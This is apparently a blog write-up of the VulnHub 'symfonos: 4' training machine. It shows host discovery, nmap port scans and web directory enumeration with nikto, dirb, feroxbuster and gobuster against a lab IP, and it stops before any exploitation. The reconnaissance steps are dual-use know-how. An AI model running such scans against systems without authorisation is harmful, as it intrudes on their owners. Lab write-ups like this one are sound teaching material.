<html lang="en">
    <head>
        <meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1">
        <title>/f0c1s/blog/sec/vulnhub/symfonos-4</title>
        <link rel="stylesheet" href="../../../index.css"/>
        <link rel="stylesheet" href="../../../highlight/styles/monokai.min.css"/>
        <script src="../../../highlight/highlight.min.js"></script>
        <script src="../../../setup.js"></script>
        <script>hljs.highlightAll();</script>
    </head>
<body onload="setup()">
<h1>/f0c1s/blog/sec/vulnhub/symfonos-4</h1>

<nav>
    <a href="../../../index.html">/blog</a>
    <a href="../../index.html">Security</a>
    <a href="../index.html">VulnHub</a>
    <a href="../../../sec/vulnhub/symfonos-4/symfonos-4.html">+ symfonos-4 - 2022.01.08 Saturday</a>
</nav>

## Description

> Name: symfonos: 4
> Difficulty: Intermediate
> Tested: VirtualBox
> DHCP Enabled
> OSCP-like Intermediate real life based machine designed to teach people the importance of trying harder.
>
> This works better with VirtualBox rather than VMware.


[VulnHub: https://www.vulnhub.com/entry/symfonos-4,347/](https://www.vulnhub.com/entry/symfonos-4,347/)
[Series: https://www.vulnhub.com/series/symfonos,217/](https://www.vulnhub.com/series/symfonos,217/)



## Scanning


```shell
fping -aAqg 192.168.56.1/24 | tee fping.txt
192.168.56.1
192.168.56.2
192.168.56.70
192.168.56.92
192.168.56.93

```

```shell
sudo netdiscover -r 192.168.56.1/24 -i eth1 -PN
[sudo] password for f0c1s:
 192.168.56.1    0a:00:27:00:00:00      1      60  Unknown vendor
 192.168.56.2    08:00:27:79:1b:bb      1      60  PCS Systemtechnik GmbH
 192.168.56.92   08:00:27:d0:e8:29      1      60  PCS Systemtechnik GmbH
 192.168.56.93   08:00:27:45:ca:64      1      60  PCS Systemtechnik GmbH

-- Active scan completed, 4 Hosts found.

```

```shell
sudo arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 08:00:27:13:e5:7a, IPv4: 192.168.56.70
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:00       (Unknown: locally administered)
192.168.56.2    08:00:27:79:1b:bb       PCS Systemtechnik GmbH
192.168.56.92   08:00:27:d0:e8:29       PCS Systemtechnik GmbH
192.168.56.93   08:00:27:45:ca:64       PCS Systemtechnik GmbH

64 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.193 seconds (116.74 hosts/sec). 4 responded

```

```shell
nmap 192.168.56.1/24 -sn -n
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-07 10:01 IST
Nmap scan report for 192.168.56.70
Host is up (0.00034s latency).
Nmap scan report for 192.168.56.92
Host is up (0.0014s latency).
Nmap scan report for 192.168.56.93
Host is up (0.0048s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.51 seconds

```

```shell
export RHOST="192.168.56.93"
export LHOST="192.168.56.70"
export LPORT="443"

```

```shell
_n $RHOST
firing nmap 192.168.56.93 -n | tee nmap.default.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-07 10:01 IST
Nmap scan report for 192.168.56.93
Host is up (0.00027s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds

```

```shell
_ntd $RHOST
firing nmap 192.168.56.93 -p- -Pn -A -T4 --min-rate=5000 -sVC -n | tee nmap.tcp-ports.deep.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-07 10:01 IST
Nmap scan report for 192.168.56.93
Host is up (0.00018s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey:
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.97 seconds

```

```shell
_nu $RHOST
firing sudo nmap 192.168.56.93 -sU -p- -Pn --min-rate=5000 --open --top-ports=500 -n | tee nmap.udp-all-ports.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-07 10:01 IST
Nmap scan report for 192.168.56.93
Host is up (0.00090s latency).
All 500 scanned ports on 192.168.56.93 are in ignored states.
Not shown: 494 open|filtered udp ports (no-response), 6 closed udp ports (port-unreach)
MAC Address: 08:00:27:45:CA:64 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds

```

```shell
sudo nmap $RHOST -p- -Pn -A -T4 --min-rate=5000 -sVC --script=*enum* -n | tee nmap.enum.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-07 10:02 IST
Nmap scan report for 192.168.56.93
Host is up (0.00054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh2-enum-algos:
|   kex_algorithms: (10)
|       curve25519-sha256
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group16-sha512
|       diffie-hellman-group18-sha512
|       diffie-hellman-group14-sha256
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       rsa-sha2-512
|       rsa-sha2-256
|       ssh-rsa
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-enum:
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|_  /manual/: Potentially interesting folder
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:45:CA:64 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.54 ms 192.168.56.93

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.28 seconds

```

## Attacking web


```shell
nikto -C all -host http://$RHOST | tee nikto.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.93
+ Target Hostname:    192.168.56.93
+ Target Port:        80
+ Start Time:         2022-01-07 10:02:49 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ Entry '/atlantis.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Server may leak inodes via ETags, header found with file /, inode: c9, size: 59058b74c9871, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26524 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2022-01-07 10:04:14 (GMT5.5) (85 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested


      *********************************************************************
      Portions of the server's headers (Apache/2.4.38) are not in
      the Nikto 2.1.6 database or are newer than the known string. Would you like
      to submit this information (*no server specific data*) to CIRT.net
      for a Nikto update (or you may email to sullo@cirt.net) (y/n)? y

+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The site uses SSL and Expect-CT header is not present.
- Sent updated info to cirt.net -- Thank you!

```

```shell
dirb http://$RHOST -S

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Fri Jan  7 10:05:54 2022
URL_BASE: http://192.168.56.93/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Silent Mode

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.56.93/ ----
==> DIRECTORY: http://192.168.56.93/css/
+ http://192.168.56.93/index.html (CODE:200|SIZE:201)
==> DIRECTORY: http://192.168.56.93/javascript/
==> DIRECTORY: http://192.168.56.93/js/
==> DIRECTORY: http://192.168.56.93/manual/
+ http://192.168.56.93/robots.txt (CODE:403|SIZE:298)
+ http://192.168.56.93/server-status (CODE:403|SIZE:301)

---- Entering directory: http://192.168.56.93/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.93/javascript/ ----
==> DIRECTORY: http://192.168.56.93/javascript/jquery/

---- Entering directory: http://192.168.56.93/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.93/manual/ ----
==> DIRECTORY: http://192.168.56.93/manual/da/
==> DIRECTORY: http://192.168.56.93/manual/de/
==> DIRECTORY: http://192.168.56.93/manual/en/
==> DIRECTORY: http://192.168.56.93/manual/es/
==> DIRECTORY: http://192.168.56.93/manual/fr/
==> DIRECTORY: http://192.168.56.93/manual/images/
+ http://192.168.56.93/manual/index.html (CODE:200|SIZE:626)
==> DIRECTORY: http://192.168.56.93/manual/ja/
==> DIRECTORY: http://192.168.56.93/manual/ko/
==> DIRECTORY: http://192.168.56.93/manual/style/
==> DIRECTORY: http://192.168.56.93/manual/tr/
==> DIRECTORY: http://192.168.56.93/manual/zh-cn/

---- Entering directory: http://192.168.56.93/javascript/jquery/ ----
+ http://192.168.56.93/javascript/jquery/jquery (CODE:200|SIZE:271809)

---- Entering directory: http://192.168.56.93/manual/da/ ----
==> DIRECTORY: http://192.168.56.93/manual/da/developer/
==> DIRECTORY: http://192.168.56.93/manual/da/faq/
==> DIRECTORY: http://192.168.56.93/manual/da/howto/
+ http://192.168.56.93/manual/da/index.html (CODE:200|SIZE:9117)
==> DIRECTORY: http://192.168.56.93/manual/da/misc/
==> DIRECTORY: http://192.168.56.93/manual/da/mod/
==> DIRECTORY: http://192.168.56.93/manual/da/programs/
==> DIRECTORY: http://192.168.56.93/manual/da/ssl/

---- Entering directory: http://192.168.56.93/manual/de/ ----
==> DIRECTORY: http://192.168.56.93/manual/de/developer/
==> DIRECTORY: http://192.168.56.93/manual/de/faq/
==> DIRECTORY: http://192.168.56.93/manual/de/howto/
+ http://192.168.56.93/manual/de/index.html (CODE:200|SIZE:9544)
==> DIRECTORY: http://192.168.56.93/manual/de/misc/
==> DIRECTORY: http://192.168.56.93/manual/de/mod/
==> DIRECTORY: http://192.168.56.93/manual/de/programs/
==> DIRECTORY: http://192.168.56.93/manual/de/ssl/

---- Entering directory: http://192.168.56.93/manual/en/ ----
==> DIRECTORY: http://192.168.56.93/manual/en/developer/
==> DIRECTORY: http://192.168.56.93/manual/en/faq/
==> DIRECTORY: http://192.168.56.93/manual/en/howto/
+ http://192.168.56.93/manual/en/index.html (CODE:200|SIZE:9482)
==> DIRECTORY: http://192.168.56.93/manual/en/misc/
==> DIRECTORY: http://192.168.56.93/manual/en/mod/
==> DIRECTORY: http://192.168.56.93/manual/en/programs/
==> DIRECTORY: http://192.168.56.93/manual/en/ssl/

---- Entering directory: http://192.168.56.93/manual/es/ ----
==> DIRECTORY: http://192.168.56.93/manual/es/developer/
==> DIRECTORY: http://192.168.56.93/manual/es/faq/
==> DIRECTORY: http://192.168.56.93/manual/es/howto/
+ http://192.168.56.93/manual/es/index.html (CODE:200|SIZE:9891)
==> DIRECTORY: http://192.168.56.93/manual/es/misc/
==> DIRECTORY: http://192.168.56.93/manual/es/mod/
==> DIRECTORY: http://192.168.56.93/manual/es/programs/
==> DIRECTORY: http://192.168.56.93/manual/es/ssl/

---- Entering directory: http://192.168.56.93/manual/fr/ ----
==> DIRECTORY: http://192.168.56.93/manual/fr/developer/
==> DIRECTORY: http://192.168.56.93/manual/fr/faq/
==> DIRECTORY: http://192.168.56.93/manual/fr/howto/
+ http://192.168.56.93/manual/fr/index.html (CODE:200|SIZE:9844)
==> DIRECTORY: http://192.168.56.93/manual/fr/misc/
==> DIRECTORY: http://192.168.56.93/manual/fr/mod/
==> DIRECTORY: http://192.168.56.93/manual/fr/programs/
==> DIRECTORY: http://192.168.56.93/manual/fr/ssl/

---- Entering directory: http://192.168.56.93/manual/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.93/manual/ja/ ----
==> DIRECTORY: http://192.168.56.93/manual/ja/developer/
==> DIRECTORY: http://192.168.56.93/manual/ja/faq/
==> DIRECTORY: http://192.168.56.93/manual/ja/howto/
+ http://192.168.56.93/manual/ja/index.html (CODE:200|SIZE:9935)
==> DIRECTORY: http://192.168.56.93/manual/ja/misc/
==> DIRECTORY: http://192.168.56.93/manual/ja/mod/
==> DIRECTORY: http://192.168.56.93/manual/ja/programs/
==> DIRECTORY: http://192.168.56.93/manual/ja/ssl/

---- Entering directory: http://192.168.56.93/manual/ko/ ----
==> DIRECTORY: http://192.168.56.93/manual/ko/developer/
==> DIRECTORY: http://192.168.56.93/manual/ko/faq/
==> DIRECTORY: http://192.168.56.93/manual/ko/howto/
+ http://192.168.56.93/manual/ko/index.html (CODE:200|SIZE:8585)
==> DIRECTORY: http://192.168.56.93/manual/ko/misc/
==> DIRECTORY: http://192.168.56.93/manual/ko/mod/
==> DIRECTORY: http://192.168.56.93/manual/ko/programs/
==> DIRECTORY: http://192.168.56.93/manual/ko/ssl/

---- Entering directory: http://192.168.56.93/manual/style/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.93/manual/tr/ ----
==> DIRECTORY: http://192.168.56.93/manual/tr/developer/
==> DIRECTORY: http://192.168.56.93/manual/tr/faq/
==> DIRECTORY: http://192.168.56.93/manual/tr/howto/
+ http://192.168.56.93/manual/tr/index.html (CODE:200|SIZE:9714)
==> DIRECTORY: http://192.168.56.93/manual/tr/misc/
==> DIRECTORY: http://192.168.56.93/manual/tr/mod/
==> DIRECTORY: http://192.168.56.93/manual/tr/programs/
==> DIRECTORY: http://192.168.56.93/manual/tr/ssl/

---- Entering directory: http://192.168.56.93/manual/zh-cn/ ----
==> DIRECTORY: http://192.168.56.93/manual/zh-cn/developer/
==> DIRECTORY: http://192.168.56.93/manual/zh-cn/faq/
==> DIRECTORY: http://192.168.56.93/manual/zh-cn/howto/
+ http://192.168.56.93/manual/zh-cn/index.html (CODE:200|SIZE:9211)
==> DIRECTORY: http://192.168.56.93/manual/zh-cn/misc/
==> DIRECTORY: http://192.168.56.93/manual/zh-cn/mod/
==> DIRECTORY: http://192.168.56.93/manual/zh-cn/programs/
==> DIRECTORY: http://192.168.56.93/manual/zh-cn/ssl/

---- Entering directory: http://192.168.56.93/manual/da/developer/ ----
+ http://192.168.56.93/manual/da/developer/index.html (CODE:200|SIZE:6182)

---- Entering directory: http://192.168.56.93/manual/da/faq/ ----
+ http://192.168.56.93/manual/da/faq/index.html (CODE:200|SIZE:3880)

---- Entering directory: http://192.168.56.93/manual/da/howto/ ----
+ http://192.168.56.93/manual/da/howto/index.html (CODE:200|SIZE:8865)

---- Entering directory: http://192.168.56.93/manual/da/misc/ ----
+ http://192.168.56.93/manual/da/misc/index.html (CODE:200|SIZE:5386)

---- Entering directory: http://192.168.56.93/manual/da/mod/ ----
+ http://192.168.56.93/manual/da/mod/index.html (CODE:200|SIZE:23354)

---- Entering directory: http://192.168.56.93/manual/da/programs/ ----
+ http://192.168.56.93/manual/da/programs/index.html (CODE:200|SIZE:6973)

---- Entering directory: http://192.168.56.93/manual/da/ssl/ ----
+ http://192.168.56.93/manual/da/ssl/index.html (CODE:200|SIZE:5277)

---- Entering directory: http://192.168.56.93/manual/de/developer/ ----
+ http://192.168.56.93/manual/de/developer/index.html (CODE:200|SIZE:6182)

---- Entering directory: http://192.168.56.93/manual/de/faq/ ----
+ http://192.168.56.93/manual/de/faq/index.html (CODE:200|SIZE:3880)

---- Entering directory: http://192.168.56.93/manual/de/howto/ ----
+ http://192.168.56.93/manual/de/howto/index.html (CODE:200|SIZE:8865)

---- Entering directory: http://192.168.56.93/manual/de/misc/ ----
+ http://192.168.56.93/manual/de/misc/index.html (CODE:200|SIZE:5386)

---- Entering directory: http://192.168.56.93/manual/de/mod/ ----
+ http://192.168.56.93/manual/de/mod/index.html (CODE:200|SIZE:23546)

---- Entering directory: http://192.168.56.93/manual/de/programs/ ----
+ http://192.168.56.93/manual/de/programs/index.html (CODE:200|SIZE:6973)

---- Entering directory: http://192.168.56.93/manual/de/ssl/ ----
+ http://192.168.56.93/manual/de/ssl/index.html (CODE:200|SIZE:5277)

---- Entering directory: http://192.168.56.93/manual/en/developer/ ----
+ http://192.168.56.93/manual/en/developer/index.html (CODE:200|SIZE:6182)

---- Entering directory: http://192.168.56.93/manual/en/faq/ ----
+ http://192.168.56.93/manual/en/faq/index.html (CODE:200|SIZE:3880)

---- Entering directory: http://192.168.56.93/manual/en/howto/ ----
+ http://192.168.56.93/manual/en/howto/index.html (CODE:200|SIZE:8865)

---- Entering directory: http://192.168.56.93/manual/en/misc/ ----
+ http://192.168.56.93/manual/en/misc/index.html (CODE:200|SIZE:5386)

---- Entering directory: http://192.168.56.93/manual/en/mod/ ----
+ http://192.168.56.93/manual/en/mod/index.html (CODE:200|SIZE:23354)

---- Entering directory: http://192.168.56.93/manual/en/programs/ ----
+ http://192.168.56.93/manual/en/programs/index.html (CODE:200|SIZE:6973)

---- Entering directory: http://192.168.56.93/manual/en/ssl/ ----
+ http://192.168.56.93/manual/en/ssl/index.html (CODE:200|SIZE:5277)

---- Entering directory: http://192.168.56.93/manual/es/developer/ ----
+ http://192.168.56.93/manual/es/developer/index.html (CODE:200|SIZE:6182)

---- Entering directory: http://192.168.56.93/manual/es/faq/ ----
+ http://192.168.56.93/manual/es/faq/index.html (CODE:200|SIZE:3979)

---- Entering directory: http://192.168.56.93/manual/es/howto/ ----
+ http://192.168.56.93/manual/es/howto/index.html (CODE:200|SIZE:8279)

---- Entering directory: http://192.168.56.93/manual/es/misc/ ----
+ http://192.168.56.93/manual/es/misc/index.html (CODE:200|SIZE:5859)

---- Entering directory: http://192.168.56.93/manual/es/mod/ ----
+ http://192.168.56.93/manual/es/mod/index.html (CODE:200|SIZE:23733)

---- Entering directory: http://192.168.56.93/manual/es/programs/ ----
+ http://192.168.56.93/manual/es/programs/index.html (CODE:200|SIZE:7444)

---- Entering directory: http://192.168.56.93/manual/es/ssl/ ----
+ http://192.168.56.93/manual/es/ssl/index.html (CODE:200|SIZE:5277)

---- Entering directory: http://192.168.56.93/manual/fr/developer/ ----
+ http://192.168.56.93/manual/fr/developer/index.html (CODE:200|SIZE:6182)

---- Entering directory: http://192.168.56.93/manual/fr/faq/ ----
+ http://192.168.56.93/manual/fr/faq/index.html (CODE:200|SIZE:3885)

---- Entering directory: http://192.168.56.93/manual/fr/howto/ ----
+ http://192.168.56.93/manual/fr/howto/index.html (CODE:200|SIZE:9328)

---- Entering directory: http://192.168.56.93/manual/fr/misc/ ----
+ http://192.168.56.93/manual/fr/misc/index.html (CODE:200|SIZE:5717)

---- Entering directory: http://192.168.56.93/manual/fr/mod/ ----
+ http://192.168.56.93/manual/fr/mod/index.html (CODE:200|SIZE:25575)

---- Entering directory: http://192.168.56.93/manual/fr/programs/ ----
+ http://192.168.56.93/manual/fr/programs/index.html (CODE:200|SIZE:7282)

---- Entering directory: http://192.168.56.93/manual/fr/ssl/ ----
+ http://192.168.56.93/manual/fr/ssl/index.html (CODE:200|SIZE:5427)

---- Entering directory: http://192.168.56.93/manual/ja/developer/ ----
+ http://192.168.56.93/manual/ja/developer/index.html (CODE:200|SIZE:6182)

---- Entering directory: http://192.168.56.93/manual/ja/faq/ ----
+ http://192.168.56.93/manual/ja/faq/index.html (CODE:200|SIZE:3880)

---- Entering directory: http://192.168.56.93/manual/ja/howto/ ----
+ http://192.168.56.93/manual/ja/howto/index.html (CODE:200|SIZE:8217)

---- Entering directory: http://192.168.56.93/manual/ja/misc/ ----
+ http://192.168.56.93/manual/ja/misc/index.html (CODE:200|SIZE:5386)

---- Entering directory: http://192.168.56.93/manual/ja/mod/ ----
+ http://192.168.56.93/manual/ja/mod/index.html (CODE:200|SIZE:24656)

---- Entering directory: http://192.168.56.93/manual/ja/programs/ ----
+ http://192.168.56.93/manual/ja/programs/index.html (CODE:200|SIZE:6973)

---- Entering directory: http://192.168.56.93/manual/ja/ssl/ ----
+ http://192.168.56.93/manual/ja/ssl/index.html (CODE:200|SIZE:5497)

---- Entering directory: http://192.168.56.93/manual/ko/developer/ ----
+ http://192.168.56.93/manual/ko/developer/index.html (CODE:200|SIZE:6182)

---- Entering directory: http://192.168.56.93/manual/ko/faq/ ----
+ http://192.168.56.93/manual/ko/faq/index.html (CODE:200|SIZE:3880)

---- Entering directory: http://192.168.56.93/manual/ko/howto/ ----
+ http://192.168.56.93/manual/ko/howto/index.html (CODE:200|SIZE:6661)

---- Entering directory: http://192.168.56.93/manual/ko/misc/ ----
+ http://192.168.56.93/manual/ko/misc/index.html (CODE:200|SIZE:5483)

---- Entering directory: http://192.168.56.93/manual/ko/mod/ ----
+ http://192.168.56.93/manual/ko/mod/index.html (CODE:200|SIZE:22786)

---- Entering directory: http://192.168.56.93/manual/ko/programs/ ----
+ http://192.168.56.93/manual/ko/programs/index.html (CODE:200|SIZE:5845)

---- Entering directory: http://192.168.56.93/manual/ko/ssl/ ----
+ http://192.168.56.93/manual/ko/ssl/index.html (CODE:200|SIZE:5277)

---- Entering directory: http://192.168.56.93/manual/tr/developer/ ----
+ http://192.168.56.93/manual/tr/developer/index.html (CODE:200|SIZE:6182)

---- Entering directory: http://192.168.56.93/manual/tr/faq/ ----
+ http://192.168.56.93/manual/tr/faq/index.html (CODE:200|SIZE:3887)

---- Entering directory: http://192.168.56.93/manual/tr/howto/ ----
+ http://192.168.56.93/manual/tr/howto/index.html (CODE:200|SIZE:8865)

---- Entering directory: http://192.168.56.93/manual/tr/misc/ ----
+ http://192.168.56.93/manual/tr/misc/index.html (CODE:200|SIZE:5616)

---- Entering directory: http://192.168.56.93/manual/tr/mod/ ----
+ http://192.168.56.93/manual/tr/mod/index.html (CODE:200|SIZE:23632)

---- Entering directory: http://192.168.56.93/manual/tr/programs/ ----
+ http://192.168.56.93/manual/tr/programs/index.html (CODE:200|SIZE:7476)

---- Entering directory: http://192.168.56.93/manual/tr/ssl/ ----
+ http://192.168.56.93/manual/tr/ssl/index.html (CODE:200|SIZE:5419)

---- Entering directory: http://192.168.56.93/manual/zh-cn/developer/ ----
+ http://192.168.56.93/manual/zh-cn/developer/index.html (CODE:200|SIZE:6218)

---- Entering directory: http://192.168.56.93/manual/zh-cn/faq/ ----
+ http://192.168.56.93/manual/zh-cn/faq/index.html (CODE:200|SIZE:3846)

---- Entering directory: http://192.168.56.93/manual/zh-cn/howto/ ----
+ http://192.168.56.93/manual/zh-cn/howto/index.html (CODE:200|SIZE:6845)

---- Entering directory: http://192.168.56.93/manual/zh-cn/misc/ ----
+ http://192.168.56.93/manual/zh-cn/misc/index.html (CODE:200|SIZE:5084)

---- Entering directory: http://192.168.56.93/manual/zh-cn/mod/ ----
+ http://192.168.56.93/manual/zh-cn/mod/index.html (CODE:200|SIZE:23233)

---- Entering directory: http://192.168.56.93/manual/zh-cn/programs/ ----
+ http://192.168.56.93/manual/zh-cn/programs/index.html (CODE:200|SIZE:6904)

---- Entering directory: http://192.168.56.93/manual/zh-cn/ssl/ ----
+ http://192.168.56.93/manual/zh-cn/ssl/index.html (CODE:200|SIZE:5265)

-----------------
END_TIME: Fri Jan  7 10:07:42 2022
DOWNLOADED: 350512 - FOUND: 77

```


```shell
feroxbuster -q -u http://$RHOST/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k
301        9l       28w      312c http://192.168.56.93/css
301        9l       28w      315c http://192.168.56.93/manual
301        9l       28w      322c http://192.168.56.93/manual/images
301        9l       28w      318c http://192.168.56.93/manual/en
301        9l       28w      318c http://192.168.56.93/manual/de
301        9l       28w      318c http://192.168.56.93/manual/fr
301        9l       28w      311c http://192.168.56.93/js
301        9l       28w      318c http://192.168.56.93/manual/es
301        9l       28w      319c http://192.168.56.93/javascript
301        9l       28w      318c http://192.168.56.93/manual/tr
301        9l       28w      321c http://192.168.56.93/manual/style
301        9l       28w      318c http://192.168.56.93/manual/ja
301        9l       28w      318c http://192.168.56.93/manual/da
301        9l       28w      318c http://192.168.56.93/manual/ko
301        9l       28w      321c http://192.168.56.93/manual/zh-cn
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_56_93_-1641530198.state ...
Scanning: http://192.168.56.93/
Scanning: http://192.168.56.93/css
Scanning: http://192.168.56.93/manual
Scanning: http://192.168.56.93/js
Scanning: http://192.168.56.93/javascript

```

```shell
feroxbuster -q -u http://$RHOST/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k -f
403       11l       32w      294c http://192.168.56.93/icons/
200       16l       58w      948c http://192.168.56.93/css/
403       11l       32w      300c http://192.168.56.93/icons/small/
200       13l       26w      626c http://192.168.56.93/manual/
200       61l      488w        0c http://192.168.56.93/manual/images/
200      125l      624w     9482c http://192.168.56.93/manual/en/
200      128l      611w     9544c http://192.168.56.93/manual/de/
200      128l      671w     9844c http://192.168.56.93/manual/fr/
200       16l       60w      947c http://192.168.56.93/js/
200      127l      689w     9891c http://192.168.56.93/manual/es/
403       11l       32w      299c http://192.168.56.93/javascript/
200      125l      625w     9714c http://192.168.56.93/manual/tr/
200       26l      165w     2984c http://192.168.56.93/manual/style/
200      127l      554w     9935c http://192.168.56.93/manual/ja/
200      119l      593w     9117c http://192.168.56.93/manual/da/
200      116l      566w     8585c http://192.168.56.93/manual/ko/
200      122l      541w     9211c http://192.168.56.93/manual/zh-cn/
200      121l      636w     9249c http://192.168.56.93/manual/pt-br/
403       11l       32w      302c http://192.168.56.93/server-status/
200       18l       82w     1339c http://192.168.56.93/gods/
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_56_93_-1641532401.state ...
Scanning: http://192.168.56.93/
Scanning: http://192.168.56.93/icons/
Scanning: http://192.168.56.93/css/
Scanning: http://192.168.56.93/manual/
Scanning: http://192.168.56.93/js/
Scanning: http://192.168.56.93/javascript/
Scanning: http://192.168.56.93/server-status/
Scanning: http://192.168.56.93/gods/

```

```shell
gobuster dir --url http://$RHOST/ --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403,400 -q -f --wildcard -x php,cgi,bak,txt,zip,py,js
/css/                 (Status: 200) [Size: 948]
/manual/              (Status: 200) [Size: 626]
